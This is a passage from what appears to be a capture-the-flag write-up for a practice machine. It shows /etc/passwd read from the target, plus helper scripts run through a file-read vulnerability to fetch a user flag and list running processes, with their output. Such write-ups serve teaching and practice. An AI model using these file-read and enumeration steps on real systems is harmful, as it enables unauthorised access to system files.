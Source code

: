 ```
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

We can see that a user called user is allocated in the system. We can try to grab the flag.
```bash
./dt /home/user/user.txt
```
Output:
```bash
[-] File /home/user/user.txt not found at 10.10.11.125
```
We dont get much...


We are going to create a [script][Bash script list] to list all the process running at the machine using the script we just created.<br>
We run it: <br>
*Note: The dt.sh and the list_process.sh script have to be in the same directory*
```bash
./list_process.sh 2>/dev/null
```
Output:
```
* Process 1:
         CMD: /sbin/initautoautomatic-ubiquitynoprompt
* Process 487:
         CMD: /lib/systemd/systemd-journald
* Process 515:
         CMD: /lib/systemd/systemd-udevd
* Process 538:
         CMD: /lib/systemd/systemd-networkd
* Process 658:
         CMD: /sbin/multipathd-d-s
* Process 659:
         CMD: /sbin/multipathd-d-s
* Process 660:
         CMD: /sbin/multipathd-d-s
* Process 661:
         CMD: /sbin/multipathd-d-s
* Process 662:
         CMD: /sbin/multipathd-d-s
* Process 663:
         CMD: /sbin/multipathd-d-s
```

[screen man]: https://linux.die.net/man/1/screen
[Bash script dt]: http://google.es
[Bash script list]: http://google.es
[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581
[port1337]: https://www.speedguide.net/port.php?port=1337